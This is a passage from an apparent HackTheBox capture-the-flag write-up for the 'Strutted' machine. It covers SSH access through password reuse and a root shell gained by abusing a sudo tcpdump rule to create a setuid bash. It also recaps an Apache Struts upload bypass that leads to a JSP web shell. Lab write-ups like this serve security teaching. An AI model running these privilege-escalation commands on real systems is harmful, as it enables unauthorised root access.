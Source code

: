Through **password reuse** we can use `admin`'s password for `james`. We can't `su` as `james` from `tomcat` but **we can** `ssh` in

```bash
ssh james@strutted.htb
```

![htb-strutted-user-txt](images/HTB-strutted/htb-strutted-user-txt.png)
## root.txt
Enumerating the privileges of our new user

```bash
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

`tcpdump` has an entry on [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo){:target="_blank"}{:rel="noopener noreferrer"} we can follow

In this case we'll create a copy of `/bin/bash` with the `suid` bit set

```bash
COMMAND='id'
TF=$(mktemp)
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash;" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

![htb-strutted-root-txt](images/HTB-strutted/htb-strutted-root-txt.png)
## Recap
The website's homepage lets us upload an image file and download the source code of the site. Reading the source, we find that it is running a vulnerable version of [Apache Struts](https://struts.apache.org/){:target="_blank"}{:rel="noopener noreferrer"}. Using [CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677){:target="_blank"}{:rel="noopener noreferrer"} and bypassing the image upload restrictions, the attacker can **upload arbitrary files to any location**. Uploading a `jsp` web shell gives a foothold into the system
